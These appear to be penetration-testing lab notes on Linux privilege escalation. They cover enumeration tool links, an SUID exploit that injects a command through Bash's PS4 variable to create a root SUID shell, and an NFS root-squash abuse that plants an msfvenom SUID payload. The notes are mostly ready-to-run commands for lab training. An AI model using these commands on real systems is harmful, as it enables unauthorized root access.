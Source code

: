 ###
```
https://www.hackingarticles.in/linux-privilege-escalation-automated-script/
https://github.com/belane/linux-soft-exploit-suggester
```
```
pspy
https://github.com/DominicBreuker/pspy

```
### SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

---------------------------------------------
python -c 'import os;os.execl("/bin/sh","sh","-p")'
------------------------------------------------
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the Debian VM:

cat /etc/exports

Note that the /tmp share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:
sudo su

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf



SMB:
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
echo exit | smbclient -L \\\\[ip]
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.132.104
